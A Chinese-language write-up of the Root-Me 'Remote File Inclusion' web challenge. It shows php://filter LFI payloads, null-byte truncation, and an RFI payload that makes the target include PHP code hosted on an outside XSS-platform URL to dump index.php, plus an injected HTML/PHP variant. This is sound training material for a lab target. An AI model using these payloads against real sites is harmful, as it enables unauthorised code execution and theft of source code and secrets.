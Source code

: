 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/remotefileinclusion/)]

------


## 题目分析

PHP 的 RFI （远程文件包含）漏洞利用，与 LFI （本地文件包含）很类似。

题目要求我们获取 PHP 页面源码，开启挑战后，只有 [Français](http://challenge01.root-me.org/web-serveur/ch13/?lang=fr) （`?lang=fr`） 和  [English](http://challenge01.root-me.org/web-serveur/ch13/?lang=en) （`?lang=en`） 两个选项。

顺手测试了一下，当前页面的名称为 `index.php` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/01.png)

换言之我们有 3 个页面：`?lang=fr`、`?lang=en`、 `index.php` 。

------------

## LFI 试错

虽然题目提示要使用 RFI 完成挑战，但是还是先测试下 LFI 的效果。

可以利用 `php://filter` 特性读取页面源码，构造这样的 payload ：

`?lang=php://filter/convert.base64-encode/resource=fr`

于是得到 Base64 编码的页面源码：

```base64
PD9waHAKCiRsYW5nID0gYXJyYXkgKAogICAgICAgICAgICAnbGFuZycgPT4gJ0xhbmd1ZScsCiAgICAgICAgICAgICd3ZWxjb21lJyA9PiAnQmllbnZlbnVlIHN1ciBub3RyZSBub3V2ZWF1IHNpdGUgd2ViICEnLAogICAgICAgICk7Cgo/Pgo=
```

对其解码虽然得到源码，但是没有有效的信息：

```php
<?php

$lang = array (
            'lang' => 'Langue',
            'welcome' => 'Bienvenue sur notre nouveau site web !',
        );

?>
```

类似地，`?lang=en` 的页面源码也是没提供有效的信息。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/02.png)


换言之，有效信息应该保存在  `index.php` 。于是构造类似的 payload 去读取页面源码：

`?lang=php://filter/convert.base64-encode/resource=index.php`

但是页面报错：

```
Warning: include(php://filter/convert.base64-encode/resource=index.php_lang.php): failed to open stream
```

从报错分析可以知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`

亦即前面之所以可以读取到 `?lang=fr` 和 `?lang=en` 的内容，是因为他们真正的文件名是 `fr_lang.php` 和 `en_lang.php` 。

但是因为不存在 `index_lang.php` 和 `index.php_lang.php` 页面，所以 `include()`  Local File 时就会报错。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/03.png)


其实在 LFI 的领域，这种情况（include 的文件被强制加了后缀）是有办法处理的。

因为 PHP 是用 C 语言编写的，而在 C 语言中，标记一个字符串的终止符是 `\0` ，其 URL 编码是 `%00` 。

因此可以尝试在 payload 末尾添加 `%00` 以截断被强制添加的 `_lang.php` 后缀：

`?lang=php://filter/convert.base64-encode/resource=index.php%00`

但是这次报错为 `Warning: include()` ，即 `include` 的参数被置空，说明 `%00` 被过滤了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/04.png)

------------

## RFI 漏洞

由于 LFI 的最后希望被封堵，我们把策略转移到 RFI 。

其实 RFI 更简单，从前面分析已经知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`。

RFI 只需要再 `输入` 点直接设置 URL 地址即可，如 payload 为：`?lang=https://www.baidu.com` 。

但是页面返回报错 ` Warning: include(https://www.baidu.com_lang.php): failed to open stream` 。

这是因为 `_lang.php` 后缀作祟。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/05.png)

在 RFI 中要截断后缀，只需要在末尾添加 `?` 即可，这样后缀就会变成 URL 的参数，亦即构造 payload 为：

`?lang=https://www.baidu.com?` 

于是我们成功把百度嵌入到了页面中：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/06.png)

------------

## RFL 注入

既然可以成功嵌入百度，那么也可以嵌入 payload 页面。

所以接下来要做的，就是在一个公网可访问的 WEB 服务器上构造一个页面，把该页面的内容作为 payload ，读取发起 `include` 行为的页面源码。

为了节省搭建 WEB 服务器的资金，从这里开始我们利用 XSS 平台，推荐 [http://xss.tf](http://xss.tf) 。

在 XSS 平台上新建一个项目，并配置自定义代码 `<?php echo file_get_contents('index.php') ?>` 。

配置完成后，我们得到访问这个项目的页面地址为 `http://xss.tf/M5Q` 

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/07.png)

将 XSS 项目的 URL 注入挑战页面，即构造 payload ： `?lang=http://xss.tf/M5Q?`

成功读取到 `index.php` 的源码，打开浏览器的开发者工具，在注释中找到 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/08.png)

------------

## 其他 payload

在 XSS 平台上构造 payload 的过程中，我发现这题挑战其实不止一个解法:

在 `inlcule()` 参数的引号被闭合后，可以注入 HTML 和 JS 代码，然后在 JS 代码中调用 PHP 代码。

例如构造这样的 payload 一样可以成功读取到页面源码：

`'<img src=0 onerror="<?php echo file_get_contents('index.php') ?>" />'`

 看上去好像多此一举，不过在某些情况可能会很有用。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/09.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
